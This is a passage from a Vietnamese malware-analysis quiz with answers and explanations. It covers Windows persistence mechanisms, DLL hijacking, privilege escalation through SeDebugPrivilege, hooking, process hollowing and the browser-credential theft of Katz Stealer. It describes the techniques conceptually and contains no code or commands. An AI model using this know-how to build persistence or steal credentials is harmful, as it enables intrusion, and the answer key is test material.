- C. `HKLM\SYSTEM\CurrentControlSet\Services`
- D. `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Run key là cơ chế persistence đơn giản và phổ biến nhất — mọi entry trong key này sẽ được chạy tự động khi Windows khởi động.

---

**Câu 22.** AppInit_DLLs được load vào process nào?

- A. Chỉ vào `svchost.exe`
- B. Chỉ vào `explorer.exe`
- C. Vào mọi process có load `User32.dll`
- D. Vào mọi process hệ thống

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    AppInit_DLLs load vào tất cả process có import `User32.dll`. Vì hầu hết GUI application đều dùng User32, DLL malware sẽ được inject vào rất nhiều process.

---

**Câu 23.** Tại sao malware dùng AppInit_DLLs cần kiểm tra process name trong `DllMain`?

- A. Để tối ưu performance
- B. Để tránh crash các process không phải mục tiêu — chỉ kích hoạt payload trong process cụ thể
- C. Để bypass UAC
- D. Để hide khỏi Process Explorer

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Vì DLL được inject vào mọi process có User32, nếu không kiểm tra, payload sẽ chạy trong mọi process và có thể crash hệ thống. Malware kiểm tra process name để chỉ kích hoạt trong context phù hợp.

---

**Câu 24.** Winlogon Notify persistence đặc biệt nguy hiểm vì điều gì?

- A. Khó xóa hơn Run key
- B. Có thể load ngay cả trong Safe Mode
- C. Không bị Autoruns phát hiện
- D. Tự tái tạo sau khi bị xóa

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Safe Mode thường được dùng để remove malware. Winlogon Notify có thể hook vào startup event và load trong Safe Mode, làm phức tạp quá trình cleanup.

---

**Câu 25.** `ServiceDLL` value trong registry của một Windows service chứa gì?

- A. Tên của service
- B. Đường dẫn đến DLL thực thi logic của service đó, được load bởi `svchost.exe`
- C. User account mà service chạy dưới đó
- D. Dependencies của service

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `HKLM\SYSTEM\CurrentControlSet\Services\<Name>\Parameters\ServiceDLL` trỏ đến DLL chứa code của service. Malware set giá trị này để `svchost.exe` load DLL độc hại.

---

**Câu 26.** Malware thường thêm mình vào nhóm svchost nào và tại sao?

- A. `LocalService` — vì có ít quyền nhất
- B. `netsvcs` — đây là group lớn chứa nhiều service, dễ lẫn vào
- C. `NetworkService` — vì cần kết nối mạng
- D. `LocalSystem` — vì có quyền cao nhất

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `netsvcs` chứa hàng chục service hợp lệ. Bằng cách thêm mình vào group này, malware ẩn dưới tên `svchost.exe -k netsvcs` — rất khó phân biệt với service hợp lệ.

---

**Câu 27.** Trong Trojanized System Binary, malware thường modify gì đầu tiên?

- A. Toàn bộ binary được viết lại
- B. Entry function (như `DllEntryPoint`) được sửa để nhảy đến malicious code trước
- C. Checksum của file được cập nhật
- D. Metadata trong PE header

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Malware patch một `jmp` instruction vào entry function, chuyển flow sang shellcode được chèn vào vùng trống của binary. Sau đó, shellcode nhảy trở lại hàm gốc để DLL hoạt động bình thường.

---

**Câu 28.** Thứ tự tìm kiếm DLL trên Windows XP, vị trí nào được tìm trước tiên?

- A. `C:\Windows\System32`
- B. `C:\Windows`
- C. Thư mục chứa application đang chạy
- D. Biến môi trường PATH

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Thứ tự chuẩn: (1) application directory, (2) current directory, (3) System32, (4) 16-bit system directory, (5) Windows directory, (6) PATH. Đây là cơ sở của DLL hijacking.

---

**Câu 29.** `KnownDLLs` registry key làm gì trong bối cảnh DLL load-order?

- A. Liệt kê tất cả DLL nguy hiểm
- B. Override search order — DLL trong list này luôn được load từ đường dẫn cố định, không qua search order
- C. Block các DLL không được phép
- D. Cache DLL để tăng tốc load

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    KnownDLLs chứa các DLL quan trọng với đường dẫn tuyệt đối. Khi load, Windows bỏ qua search order và load thẳng từ đường dẫn đã biết — tránh bị hijack.

---

**Câu 30.** Tại sao `explorer.exe` vulnerable với DLL load-order hijacking?

- A. Vì explorer.exe không được Microsoft ký
- B. Explorer.exe nằm ở `C:\Windows` (không phải System32), load nhiều DLL từ System32 mà không nằm trong KnownDLLs
- C. Explorer.exe chạy với quyền SYSTEM
- D. Explorer.exe không kiểm tra integrity của DLL

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Vì explorer.exe không nằm trong System32, Windows sẽ tìm DLL theo search order bắt đầu từ `C:\Windows`. Attacker đặt DLL độc hại tại `C:\Windows` sẽ được load trước bản gốc trong System32.

---

**Câu 31.** `SeDebugPrivilege` cho phép làm gì?

- A. Cho phép debug kernel mode
- B. Cho phép local Administrator escalate lên System privileges
- C. Cho phép bypass file system permissions
- D. Cho phép disable AV

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `SeDebugPrivilege` được thiết kế để debugger có thể attach vào bất kỳ process nào kể cả process hệ thống. Malware lợi dụng đặc quyền này để leo thang từ Administrator lên System.

---

**Câu 32.** Thứ tự các API call khi malware kích hoạt `SeDebugPrivilege` là gì?

- A. `OpenProcess` → `VirtualAllocEx` → `WriteProcessMemory`
- B. `OpenProcessToken` → `LookupPrivilegeValue` → `AdjustTokenPrivileges`
- C. `CreateToken` → `SetPrivilege` → `ImpersonateToken`
- D. `GetCurrentProcess` → `DuplicateToken` → `SetThreadToken`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    (1) `OpenProcessToken` lấy token của process hiện tại, (2) `LookupPrivilegeValue` tìm LUID của `SeDebugPrivilege`, (3) `AdjustTokenPrivileges` kích hoạt privilege đó.

---

**Câu 33.** IAT hooking thay đổi gì?

- A. Code thực tế của API function trong DLL
- B. Con trỏ hàm trong Import Address Table của process mục tiêu
- C. Export table của DLL
- D. Stack frame của function call

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    IAT hooking thay đổi địa chỉ trong IAT — bảng tra cứu địa chỉ hàm của process. Khi process gọi API, nó tra IAT và nhảy đến địa chỉ của malware hook thay vì hàm gốc.

---

**Câu 34.** Inline hooking khác IAT hooking ở điểm gì?

- A. Inline hooking chỉ hoạt động trên 64-bit
- B. Inline hooking ghi đè bytes đầu của code API function thực tế trong DLL, không sửa pointer trong IAT
- C. Inline hooking không thể bị phát hiện
- D. Inline hooking chỉ hook kernel functions

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Inline hooking patch trực tiếp instructions trong DLL (thường là `jmp` instruction ở đầu hàm). Khó phát hiện hơn IAT hooking vì IAT trông vẫn bình thường.

---

**Câu 35.** Theo dữ liệu Elastic từ 100,000+ mẫu malware, tactic nào có alert count cao nhất?

- A. Execution
- B. Persistence
- C. Defense Evasion
- D. Privilege Escalation

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Defense Evasion có 302,004 alerts — cao nhất, gần gấp đôi Privilege Escalation (153,015). Điều này cho thấy malware hiện đại ưu tiên ẩn mình hơn bất kỳ mục tiêu nào khác.

---

**Câu 36.** Technique nào chiếm đa số alerts trong Defense Evasion theo dữ liệu Elastic?

- A. Masquerading
- B. Modify Registry
- C. Process Injection
- D. Impair Defenses

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Process Injection có 173,550 alerts trong Defense Evasion — chiếm hơn 57%. Đây là technique cực kỳ phổ biến vì cho phép malware chạy dưới danh nghĩa process hợp lệ.

---

**Câu 37.** Trong dữ liệu Elastic, sub-technique nào dẫn đầu Privilege Escalation?

- A. Bypass User Account Control
- B. DLL Search Order Hijacking
- C. Create Process with Token / Token Impersonation/Theft
- D. Windows Service

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Access Token Manipulation (Create Process with Token và Token Impersonation/Theft) chiếm 151,427 alerts — áp đảo so với các technique khác. Kỹ thuật này cho phép malware giả mạo token của user có đặc quyền cao hơn.

---

**Câu 38.** Persistence technique nào phổ biến nhất theo dữ liệu Elastic?

- A. Registry Run Keys / Startup Folder
- B. Scheduled Task
- C. Windows Service
- D. Image File Execution Options Injection

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Scheduled Task có 21,289 alerts — cao nhất trong Persistence category. Malware tạo scheduled task để tự chạy theo lịch hoặc khi khởi động.

---

**Câu 39.** Trong Credential Access theo dữ liệu Elastic, nguồn credential nào bị tấn công nhiều nhất?

- A. LSASS Memory
- B. NTDS
- C. Windows Credential Manager
- D. Security Account Manager

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Windows Credential Manager có 14,329 alerts — cao nhất. Đây là kho lưu credential của Windows (website passwords, network credentials) và là mục tiêu ưa thích.

---

**Câu 40.** LOLBins (Living-off-the-Land Binaries) là gì và tại sao malware dùng chúng?

- A. Malware tự viết giống system binary để đánh lừa
- B. Các binary hợp lệ của hệ thống (như PowerShell, rundll32) bị lợi dụng để thực thi malicious code, giúp tránh phát hiện vì chúng được trust sẵn
- C. Các binary được download từ internet để bypass AV
- D. Tool của attacker được disguise thành system binary

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    LOLBins như `rundll32.exe`, `regsvr32.exe`, `mshta.exe`, `PowerShell` là binary hợp lệ của Windows. Dùng chúng để execute malicious code giúp bypass application whitelist và AV detection.

---

**Câu 41.** Công cụ Sysinternals nào hữu ích nhất để phát hiện persistence mechanism?

- A. Process Monitor (ProcMon)
- B. Autoruns
- C. Process Explorer
- D. TCPView

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Autoruns liệt kê tất cả các entry tự động chạy khi Windows khởi động — Run keys, services, scheduled tasks, browser extensions, v.v. Đây là công cụ đầu tiên cần dùng khi tìm persistence.

---

**Câu 42.** Tại sao botnets có thể hạ gục website?

- A. Bằng cách exploit SQL injection trong database
- B. Bằng cách cho toàn bộ zombie tấn công (gửi request) đến website cùng lúc — DDoS
- C. Bằng cách cài malware lên web server
- D. Bằng cách DNS poisoning

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Hàng nghìn hoặc hàng triệu zombie gửi request đồng thời đến một server — Distributed Denial of Service (DDoS). Server không thể xử lý, dẫn đến downtime.

---

**Câu 43.** Katz Stealer đánh cắp credential từ Chrome bằng phương pháp nào?

- A. Brute force master password
- B. Inject DLL vào browser process, gọi internal browser functions để bypass Application-Bound Encryption
- C. Đọc trực tiếp từ file SQLite trên disk
- D. Hook network traffic

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Katz Stealer launch browser ở headless mode rồi dùng `CreateRemoteThread` để inject DLL vào browser process. DLL chạy trong context của browser, có thể gọi internal functions để decrypt credential — bypass Application-Bound Encryption (ABE).

---

**Câu 44.** Katz Stealer lấy password từ Firefox như thế nào?

- A. Hook `NSS_Init` function
- B. Collect các file `logins.json`, `key4.db`, `cookies.sqlite` từ Firefox profile directory để decrypt offline
- C. Inject vào Firefox process tương tự Chrome
- D. Intercept master password khi user nhập

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Firefox lưu credential khác Chrome. Katz Stealer tìm Firefox profile qua `profiles.ini`, lấy `logins.json` (encrypted passwords) và `key4.db` (encryption keys). Attacker có thể decrypt offline hoặc extract session cookies.

---

**Câu 45.** DLL Side-Loading là gì?

- A. Load DLL vào side process thay vì main process
- B. Đặt DLL độc hại cùng thư mục với application hợp lệ, application sẽ load DLL giả thay vì DLL thật
- C. Load DLL từ network share
- D. Chạy DLL trong isolated environment

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    DLL Side-Loading lợi dụng việc application tìm DLL trong thư mục của nó trước. Attacker đặt DLL độc hại cùng tên với DLL mà application cần — thường với application hợp lệ đã ký, giúp bypass trust.

---

**Câu 46.** Process Hollowing là gì?

- A. Xóa rỗng bộ nhớ của process
- B. Tạo process hợp lệ ở trạng thái suspended, unmap code gốc, inject malicious code vào, rồi resume
- C. Tạo process ảo (virtual process)
- D. Clone một process hợp lệ

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Process Hollowing (hay Process Replacement): spawn process hợp lệ (ví dụ `svchost.exe`) ở suspended state, unmmap image gốc, write malicious code vào address space đó, adjust entry point, rồi resume. Process trông hợp lệ nhưng chạy code độc hại.

---

**Câu 47.** Tại sao malware thường ghi đè service ít được dùng thay vì tạo service mới?

- A. Service mới cần restart Windows
- B. Service ít dùng ít bị theo dõi; ghi đè service sẵn có ít gây nghi ngờ hơn tạo service lạ
- C. Windows giới hạn số lượng service
- D. Service mới bị AV block tự động

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Một service hoàn toàn mới, không quen thuộc, sẽ dễ bị phát hiện bởi security monitoring. Ghi đè một service ít dùng trong `netsvcs` giúp malware "blend in" với các service Windows hợp lệ.

---

**Câu 48.** Image File Execution Options (IFEO) Injection dùng để làm gì trong persistence?

- A. Inject DLL vào image file của Windows
- B. Set debugger cho một executable — khi file đó chạy, Windows thay vào đó chạy "debugger" (là malware)
- C. Sửa đổi PE header của executable
- D. Block execution của AV

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    IFEO cho phép set debugger cho bất kỳ executable nào. Malware đặt mình là "debugger" của `notepad.exe` chẳng hạn — mỗi khi user mở Notepad, malware chạy thay thế (hoặc trước).

---

**Câu 49.** Masquerading trong context malware có nghĩa là gì?

- A. Mã hóa traffic
- B. Đặt tên process/file/service giống tên hợp lệ của Windows để tránh bị phát hiện
- C. Giả mạo địa chỉ IP
- D. Sử dụng stolen certificate

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Malware đặt tên mình là `svchost.exe`, `explorer.exe`, `chrome.exe` hoặc đặt trong thư mục giả Windows để analyst và security tool bỏ qua. Ví dụ trong data: "Potential Masquerading as SVCHOST" có 2,776 alerts.

---

**Câu 50.** `CreateRemoteThread` API thường dùng cho mục đích gì trong malware?

- A. Tạo remote desktop session
- B. Inject code vào process khác bằng cách tạo thread trong context của process đó
- C. Tạo thread kết nối đến remote server
- D. Clone thread từ process này sang process khác

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `CreateRemoteThread` tạo thread trong address space của process khác. Đây là API kinh điển cho DLL injection và shellcode injection: attacker allocate memory trong target process, write code, rồi `CreateRemoteThread` để execute. Cần `SeDebugPrivilege` hoặc đặc quyền tương đương để inject vào system process.

---

**Câu 51.** Theo dữ liệu Elastic, rule nào trigger nhiều nhất trong Privilege Escalation?

- A. `UAC Bypass Attempt via Windows Directory Masquerading`
- B. `Suspicious Impersonation as Trusted Installer`
- C. `Privilege Escalation via EXTENDED_STARTUPINFO`
- D. `Driver Dropped by Untrusted Executable`

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    "Suspicious Impersonation as Trusted Installer" có 150,697 alerts — áp đảo. TrustedInstaller là account đặc biệt có quyền sửa đổi Windows system files. Malware impersonate token của nó để bypass nhiều hạn chế.

---

**Câu 52.** Chromium Application-Bound Encryption (ABE) bảo vệ gì và cách Katz Stealer bypass?

- A. ABE mã hóa network traffic; Katz Stealer dùng MITM
- B. ABE mã hóa cookies/passwords bằng key gắn với user login; Katz Stealer bypass bằng cách chạy bên trong browser process để có cùng quyền truy cập
- C. ABE kiểm tra certificate; Katz Stealer dùng stolen cert
- D. ABE là hardware encryption; Katz Stealer dùng kernel exploit

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    ABE là cơ chế bảo mật của Chrome thế hệ mới — mã hóa sensitive data bằng key gắn với OS user session. Katz Stealer bypass bằng cách inject vào Chrome process và gọi internal Chrome functions để decrypt — giống cách Chrome tự decrypt khi cần.

---

**Câu 53.** Staged malware có ưu điểm gì so với stageless về mặt evasion?

- A. Staged nhanh hơn
- B. Payload thực sự không tồn tại trên disk cho đến khi được download và inject vào memory — không có file để AV scan tĩnh
- C. Staged dùng ít RAM hơn
- D. Staged không cần internet connection

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Stage 1 (dropper) nhỏ và ít feature, khó detect. Stage 2 (payload thực sự) chỉ được load vào memory khi cần, không lưu disk. AV signature-based detection không thể phát hiện file không tồn tại.

---

**Câu 54.** Tại sao multithreaded reverse shell khó phân tích network hơn basic reverse shell?

- A. Dùng UDP thay TCP
- B. Các thread thực hiện encode/decode dữ liệu trước khi gửi/nhận qua socket — network capture chứa dữ liệu đã bị biến đổi
- C. Traffic được encrypt bằng TLS
- D. Dùng nhiều connection song song

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Threads trong multithreaded reverse shell thường có routine encode/decode riêng. Network capture sẽ thấy data đã được transform — analyst cần reverse engineer encoding routine để hiểu nội dung thực sự.

---

**Câu 55.** Khi phân tích binary và thấy import `LsaEnumerateLogonSessions` từ `secur32.dll`, đây có thể là dấu hiệu của gì?

- A. Keylogger
- B. Pass-the-Hash Toolkit (whosthere-alt variant) đang enumerate các logon session để dump credential
- C. RAT đang liệt kê user
- D. Persistence mechanism dùng Winlogon

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    `LsaEnumerateLogonSessions` từ `secur32.dll` là API đặc trưng của whosthere-alt variant trong Pass-the-Hash Toolkit — dùng để liệt kê tất cả logon session đang active trước khi dump credential.